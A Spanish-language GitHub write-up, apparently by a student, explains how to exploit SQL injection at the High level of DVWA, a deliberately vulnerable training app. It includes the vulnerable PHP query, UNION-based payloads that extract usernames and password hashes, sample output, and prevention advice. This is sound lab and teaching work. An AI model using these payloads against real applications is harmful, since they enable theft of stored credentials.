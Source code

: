 # 🛡️ DVWA - SQL Injection (High Level)

En este repositorio se explica cómo explotar una vulnerabilidad **SQL Injection** en el nivel **High** de la aplicación web de pruebas **DVWA (Damn Vulnerable Web Application)**.

---

## 🎯 Objetivo

Extraer los **nombres de usuario y contraseñas** almacenados en la base de datos, utilizando una **inyección SQL** que se realiza a través de una **variable de sesión (`$_SESSION['id']`)** y no directamente en la URL.

---

## 🕵️ Análisis técnico

### 📂 Recursos: `high.php`

```php
if (isset($_SESSION['id'])) {
    $id = $_SESSION['id'];

    $query = "SELECT first_name, last_name FROM users WHERE user_id = '$id' LIMIT 1;";
    $result = mysqli_query($GLOBALS["___mysqli_ston"], $query);

    while ($row = mysqli_fetch_assoc($result)) {
        echo "<pre>ID: {$id}<br />First name: {$row['first_name']}<br />Surname: {$row['last_name']}</pre>";
    }
}
```

🔎 **Puntos clave:**

- La consulta SQL es vulnerable porque el valor de `$_SESSION['id']` **no está escapado ni protegido**.
- La inyección SQL es posible si conseguimos modificar el valor de esa variable de sesión.
- El payload que funciona en el nivel **Low** también funciona aquí, como se explica tanto en las Ayudas como en [Aftab Sama's writeup](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high).

---

## 🔧 Paso a paso para explotar la vulnerabilidad

### 1. Acceder a la interfaz para cambiar el ID

Navega a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/session-input.php
```

![Link_Cambiar_ID](assets/SQL_Clickhere.png) 

Esta página contiene un campo de texto que permite **modificar la variable de sesión `$_SESSION['id']`**.

![Cuadro_Cambiar_ID](assets/SQL_ChangeID.png) 

---

### 2. Inyectar el payload SQL

En el campo de texto, introduce el siguiente valor malicioso:

```
1' UNION SELECT user, password FROM users#
```

📌 Este payload, heredado del nivel bajo, funciona también en el nivel High. Aprovecha que el valor se inyecta directamente en la consulta SQL sin escapado adicional.

Y pulsa el botón **Submit**.

![Usuarios y Contraseñas](assets/SQL_Resultado.png) 

---

### 3. Consultar los resultados

Después de enviar el formulario, serás redirigido automáticamente a:

```
http://127.0.0.1/dvwa/vulnerabilities/sqli/high.php
```

Ahí verás los resultados de la inyección SQL. Por ejemplo:

```
ID: 1' UNION SELECT user, password FROM users#
First name: admin
Surname: admin

First name: smithy
Surname: 5f4dcc3b5aa765d61d8327deb882cf99

First name: gordonb
Surname: e99a18c428cb38d5f260853678922e03

...
```

Estos valores corresponden a los usuarios y contraseñas almacenadas en la tabla `users` de DVWA.

---

## 🦪 Payloads útiles

| Objetivo                               | Payload                                                       |
| -------------------------------------- | ------------------------------------------------------------- |
| Extraer usuario y contraseña           | `1' UNION SELECT user, password FROM users#`                  |
| Ver solo un usuario (primer resultado) | `1' UNION SELECT user, password FROM users LIMIT 1#`          |
| Ver el segundo usuario                 | `1' UNION SELECT user, password FROM users LIMIT 1 OFFSET 1#` |
| Insertar valores personalizados        | `1' UNION SELECT 'root','toor'#`                              |

---

## ⚠️ Recomendaciones de seguridad

Este ejercicio está diseñado para realizarse en un entorno de pruebas controlado (DVWA). En un entorno real:

✅ Usa **consultas preparadas (prepared statements)**  
✅ Aplica **validación de entradas**  
✅ Escapa correctamente los datos enviados por el usuario  
✅ Limita los permisos de las cuentas de base de datos  
✅ Aplica un firewall de aplicaciones web (WAF)  

---

## 📚 Recursos

- 🔗 [DVWA en GitHub](https://github.com/digininja/DVWA)
- 📖 [OWASP: SQL Injection](https://owasp.org/www-community/attacks/SQL_Injection)
- ▶️ [Vídeo tutorial utilizado](https://youtu.be/5bj1pFmyyBA)
- 📘 [Writeup de Aftab Sama sobre SQLi en DVWA](https://aftabsama.com/writeups/dvwa/sql-injection/#security-level-high)

---

## 👨‍💼 Autor

**Carlos Peris Navarro**  
Estudiante de Ciberseguridad


